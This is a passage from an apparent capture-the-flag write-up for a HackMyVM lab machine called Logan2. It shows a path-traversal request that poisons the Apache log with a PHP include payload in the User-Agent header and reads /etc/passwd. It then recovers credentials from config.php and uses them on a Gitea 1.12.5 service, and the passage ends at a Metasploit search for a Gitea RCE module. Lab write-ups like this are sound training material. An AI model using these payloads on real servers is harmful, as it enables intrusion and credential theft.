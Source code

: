 ![Untitled](Logan2/Untitled%2010.png)

Now lets work with `cmd` as we worked with `photo` parameter →

```bash
#Request
GET /photos-website-logan.php?photo=../../../../../var/log/apache2/access.log&cmd=../../../../../etc/passwd HTTP/1.1
Host: newsitelogan.logan.hmv
User-Agent: <?php include($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```
{: .nolineno}

![Untitled](Logan2/Untitled%2011.png)

I can now perform php Wrapper over this parameter `cmd` →

![Untitled](Logan2/Untitled%2012.png)

Lets access the `config.php` file in this way →

![Untitled](Logan2/Untitled%2013.png)

I got this credentials →

```bash
$username = "logan";
$password = "Super_logan1234";
```
{: .nolineno}

Now I looked into port 3000 that runs gitea services so lets use this credentails to access that gitea page →

![Untitled](Logan2/Untitled%2014.png)

Login with this →

![Untitled](Logan2/Untitled%2015.png)

I got this access lets see what gitea can offer me → 

I also got the `gitea version 1.12.5` and got the version exploit for that also →

[https://www.exploit-db.com/exploits/49571](https://www.exploit-db.com/exploits/49571)

![Untitled](Logan2/Untitled%2016.png)

I used this exploit and got the shell from metasploit usage like this →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Logan2]
└─$ msfconsole -q                                            
msf6 > search gitea 1.12

Matching Modules
================

   #  Name                                    Disclosure Date  Rank       Check  Description
   -  ----                                    ---------------  ----       -----  -----------
   0  exploit/multi/http/gitea_git_hooks_rce  2020-10-07       excellent  Yes    Gitea Git Hooks Remote Code Execution

```